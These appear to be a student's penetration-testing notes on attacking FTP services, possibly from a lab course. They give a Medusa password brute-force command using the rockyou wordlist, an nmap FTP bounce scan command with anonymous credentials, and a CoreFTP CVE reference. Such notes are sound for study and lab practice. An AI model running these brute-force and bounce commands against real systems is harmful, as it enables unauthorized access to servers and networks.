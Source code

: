# Common Serivces

## FTP

### Attackes

#### Brute Forcing with Medusa

```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp

# Add -t 10 for threads and -n for uncommon port
medusa -U users.list -P passwords.list -h 10.129.203.6 -n 2121 -M ftp -t 10
```

#### FTP Bounce Attack

Like vlan hopping or double tagging. DMV --> SRV

```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

### Vulns

- CoreFTP build 727: [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)
- 

---

